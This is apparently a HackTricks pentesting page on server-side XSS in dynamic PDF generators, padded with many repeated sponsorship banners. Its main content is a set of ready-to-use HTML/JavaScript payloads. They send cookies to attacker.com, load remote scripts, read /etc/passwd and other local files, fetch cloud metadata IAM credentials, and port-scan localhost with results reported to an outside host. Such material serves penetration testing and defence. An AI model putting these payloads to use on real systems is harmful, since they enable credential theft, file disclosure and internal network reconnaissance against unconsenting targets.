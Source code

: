 

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>




<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>




<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>


# Server Side XSS (Dynamic PDF)

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>

## Server Side XSS (Dynamic PDF)

### Server Side XSS (Dynamic PDF)

If a web page is creating a PDF using user controlled input, you can try to **trick the bot** that is creating the PDF into **executing arbitrary JS code**.\
So, if the **PDF creator bot finds** some kind of **HTML** **tags**, it is going to **interpret** them, and you can **abuse** this behaviour to cause a **Server XSS**.

Please, notice that the `<script><\script>` tags don't work always, so you will need a different method to execute JS (for example, abusing `<img` ).\
Also, note that in a regular exploitation you will be **able to see/download the created pdf**, so you will be able to see everything you **write via JS** (using `document.write()` for example). But, if you **cannot see** the created PDF, you will probably need **extract the information making web request to you** (Blind).

### Payloads

#### Discovery

```markup
<!-- Basic discovery, Write somthing-->
<img src="x" onerror="document.write('test')" />
<script>document.write(JSON.stringify(window.location))</script>
<script>document.write('<iframe src="'+window.location.href+'"></iframe>')</script>

<!--Basic blind discovery, load a resource-->
<img src="http://attacker.com"/>
<img src=x onerror="location.href='http://attacker.com/?c='+ document.cookie">
<script>new Image().src="http://attacker.com/?c="+encodeURI(document.cookie);</script>
<link rel=attachment href="http://attacker.com">
```

#### SVG

Any of the previous of following payloads may be used inside this SVG payload. One iframe accessing Burpcollab subdomain and another one accessing the metadata endpoint are put as examples.

```markup
<svg xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1" class="root" width="800" height="500">
    <g>
        <foreignObject width="800" height="500">
            <body xmlns="http://www.w3.org/1999/xhtml">
                <iframe src="http://redacted.burpcollaborator.net" width="800" height="500"></iframe>
                <iframe src="http://169.254.169.254/latest/meta-data/" width="800" height="500"></iframe>
            </body>
        </foreignObject>
    </g>
</svg>


<svg width="100%" height="100%" viewBox="0 0 100 100"
     xmlns="http://www.w3.org/2000/svg">
  <circle cx="50" cy="50" r="45" fill="green"
          id="foo"/>
  <script type="text/javascript">
    // <![CDATA[
      alert(1);
   // ]]>
  </script>
</svg>
```

You can find a lot **other SVG payloads** in [**https://github.com/allanlw/svg-cheatsheet**](https://github.com/allanlw/svg-cheatsheet)****

#### Path disclosure

```markup
<!-- If the bot is accessing a file:// path, you will discover the internal path
if not, you will at least have wich path the bot is accessing -->
<img src="x" onerror="document.write(window.location)" />
<script> document.write(window.location) </script>
```

#### Load an external script

The best conformable way to exploit this vulnerability is to abuse the vulnerability to make the bot load a script you control locally. Then, you will be able to change the payload locally and make the bot load it with the same code every time.

```markup
<script src="http://attacker.com/myscripts.js"></script>
<img src="xasdasdasd" onerror="document.write('<script src="https://attacker.com/test.js"></script>')"/>
```

#### Read local file

```markup
<script>
x=new XMLHttpRequest;
x.onload=function(){document.write(btoa(this.responseText))};
x.open("GET","file:///etc/passwd");x.send();
</script>
```

```markup
<script>
    xhzeem = new XMLHttpRequest();
    xhzeem.open("GET","file:///etc/passwd");
    xhzeem.send();
    xhzeem.onload = function(){document.write(this.responseText);}
    xhzeem.onerror = function(){document.write('failed!')}
</script>
```

```markup
<iframe src=file:///etc/passwd></iframe>
<img src="xasdasdasd" onerror="document.write('<iframe src=file:///etc/passwd></iframe>')"/>
<link rel=attachment href="file:///root/secret.txt">
<object data="file:///etc/passwd">
<portal src="file:///etc/passwd" id=portal>
```

#### Get external web page response as attachment (metadata endpoints)

```markup
<link rel=attachment href="http://http://169.254.169.254/latest/meta-data/iam/security-credentials/">
```

#### Bot delay

```markup
<!--Make the bot send a ping every 500ms to check how long does the bot wait-->
<script>
    let time = 500;
    setInterval(()=>{
        let img = document.createElement("img");
        img.src = `https://attacker.com/ping?time=${time}ms`;
        time += 500;
    }, 500);
</script>
<img src="https://attacker.com/delay">
```

#### Port Scan

```markup
<!--Scan local port and receive a ping indicating which ones are found-->
<script>
const checkPort = (port) => {
    fetch(`http://localhost:${port}`, { mode: "no-cors" }).then(() => {
        let img = document.createElement("img");
        img.src = `http://attacker.com/ping?port=${port}`;
    });
}

for(let i=0; i<1000; i++) {
    checkPort(i);
}
</script>
<img src="https://attacker.com/startingScan">
```

#### [SSRF](../ssrf-server-side-request-forgery/)

This vulnerability can be transformed very easily in a SSRF (as you can make the script load external resources). So just try to exploit it (read some metadata?).

### References

{% embed url="https://lbherrera.github.io/lab/h1415-ctf-writeup.html" %}

{% embed url="https://buer.haus/2017/06/29/escalating-xss-in-phantomjs-image-rendering-to-ssrflocal-file-read/" %}

{% embed url="https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html" %}

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>


<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>




<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>




<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>


